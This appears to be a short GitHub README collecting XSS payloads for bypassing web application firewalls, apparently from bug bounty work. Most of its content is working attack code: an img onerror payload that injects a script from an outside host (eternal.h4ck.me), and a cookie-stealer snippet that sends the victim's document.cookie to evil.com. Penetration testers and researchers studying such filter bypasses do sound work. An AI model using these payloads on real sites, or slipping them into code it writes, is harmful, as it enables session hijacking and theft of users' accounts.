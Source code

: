 # xss_waf_bypass
Some collection of xss payloads that worked for me to bypass wafs while doing bb

### Payloads

Inject external javascript without using `<script>` tag since it's blacklisted in almost all modern waf

```html
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://eternal.h4ck.me/xss.js'; document.head.appendChild(script);">
```

cookie stealer example

```js
// xss cookie stealer poc
var cookie = encodeURIComponent(document.cookie);
var url = 'https://evil.com/index.html/?victim_cookie=' + cookie;
window.location.href = url;
```
